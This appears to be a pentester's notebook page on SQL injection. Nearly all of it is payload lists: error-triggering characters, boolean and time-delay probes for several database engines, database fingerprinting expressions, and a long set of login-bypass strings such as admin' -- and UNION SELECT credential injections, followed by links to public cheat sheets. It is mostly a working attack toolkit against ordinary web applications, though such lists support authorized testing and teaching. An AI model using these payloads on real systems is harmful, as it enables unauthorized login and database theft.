 ```yaml
---
icon: database
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: false
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# SQL Injection

## Entry point detection <a href="#entry-point-detection" id="entry-point-detection"></a>

### Error Messages

```plsql
'
%27
"
%22
#
%23
;
%3B
)
```

### Logical Operations

```plsql
1 or 1=1  -- true
1 and 1=2 -- false
```

### Time/Blind

<pre class="language-plsql"><code class="lang-plsql">-- MySQL --
sleep(10)

-- PostgreSQL --
pg_sleep(10)

-- MSSQL --
WAITFOR DELAY '0:0:10'

<strong>-- Oracle --
</strong>[RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

-- SQLite --
[RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
</code></pre>

### DBMS Identification

```javascript
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

### Authentication Bypass

```plsql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## Cheatsheets

* **MySQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
* **Oracle**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
* **PostgreSQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
* **MSSQL**
  * [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
  * [**https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* **Other DBMSs**
  * [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#cheatsheets](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#cheatsheets)
  * [https://pentestmonkey.net/category/cheat-sheet/sql-injection](https://pentestmonkey.net/category/cheat-sheet/sql-injection)

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/sql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)\
[https://pentestmonkey.net/category/cheat-sheet/sql-injection](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
